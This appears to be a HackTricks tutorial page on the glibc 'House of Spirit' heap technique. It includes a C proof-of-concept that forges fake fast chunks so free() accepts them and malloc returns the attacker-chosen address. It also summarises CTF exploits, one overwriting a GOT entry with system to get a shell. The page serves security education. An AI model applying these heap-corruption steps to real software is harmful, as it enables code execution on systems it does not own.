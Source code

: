# House of Spirit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

### Code

<details>

<summary>House of Spirit</summary>

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Code altered to add som prints from: https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit

struct fast_chunk {
  size_t prev_size;
  size_t size;
  struct fast_chunk *fd;
  struct fast_chunk *bk;
  char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
  struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
  void *ptr, *victim;

  ptr = malloc(0x30);

  printf("Original alloc address: %p\n", ptr);
  printf("Main fake chunk:%p\n", &fake_chunks[0]);
  printf("Second fake chunk for size: %p\n", &fake_chunks[1]);

  // Passes size check of "free(): invalid size"
  fake_chunks[0].size = sizeof(struct fast_chunk);

  // Passes "free(): invalid next size (fast)"
  fake_chunks[1].size = sizeof(struct fast_chunk);

  // Attacker overwrites a pointer that is about to be 'freed'
  // Point to .fd as it's the start of the content of the chunk
  ptr = (void *)&fake_chunks[0].fd;

  free(ptr);

  victim = malloc(0x30);
  printf("Victim: %p\n", victim);

  return 0;
}
```

</details>

### Goal

* Be able to add into the tcache / fast bin an address so later it's possible to allocate it

### Requirements

* This attack requires an attacker to be able to create a couple of fake fast chunks indicating correctly the size value of it and then to be able to free the first fake chunk so it gets into the bin.

### Attack

* Create fake chunks that bypasses security checks: you will need 2 fake chunks basically indicating in the correct positions the correct sizes
* Somehow manage to free the first fake chunk so it gets into the fast or tcache bin and then it's allocate it to overwrite that address

**The code from** [**guyinatuxedo**](https://guyinatuxedo.github.io/39-house\_of\_spirit/house\_spirit\_exp/index.html) **is great to understand the attack.** Although this schema from the code summarises it pretty good:

```c
/*
    this will be the structure of our two fake chunks:
    assuming that you compiled it for x64

    +-------+---------------------+------+
    | 0x00: | Chunk # 0 prev size | 0x00 |
    +-------+---------------------+------+
    | 0x08: | Chunk # 0 size      | 0x60 |
    +-------+---------------------+------+
    | 0x10: | Chunk # 0 content   | 0x00 |
    +-------+---------------------+------+
    | 0x60: | Chunk # 1 prev size | 0x00 |
    +-------+---------------------+------+
    | 0x68: | Chunk # 1 size      | 0x40 |
    +-------+---------------------+------+
    | 0x70: | Chunk # 1 content   | 0x00 |
    +-------+---------------------+------+

    for what we are doing the prev size values don't matter too much
    the important thing is the size values of the heap headers for our fake chunks
*/
```

{% hint style="info" %}
Note that it's necessary to create the second chunk in order to bypass some sanity checks.
{% endhint %}

## Examples

* **CTF** [**https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html**](https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html)
  * **Libc infoleak**: Via an overflow it's possible to change a pointer to point to a GOT address in order to leak a libc address via the read action of the CTF
  * **House of Spirit**: Abusing a counter that counts the number of "rifles" it's possible to generate a fake size of the first fake chunk, then abusing a "message" it's possible to fake the second size of a chunk and finally abusing an overflow it's possible to change a pointer that is going to be freed so our first fake chunk is freed. Then, we can allocate it and inside of it there is going to be the address to where "message" is stored. Then, it's possible to make this point to the `scanf` entry inside the GOT table, so we can overwrite it with the address to system.\
    Next time `scanf` is called, we can send the input `"/bin/sh"` and get a shell.

* [**Gloater. HTB Cyber Apocalypse CTF 2024**](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/gloater/)
  * **Glibc leak**: Uninitialized stack buffer.
  * **House of Spirit**: We can modify the first index of a global array of heap pointers. With a single byte modification, we use `free` on a fake chunk inside a valid chunk, so that we get an overlapping chunks situation after allocating again. With that, a simple Tcache poisoning attack works to get an arbitrary write primitive.

## References

* [https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit](https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

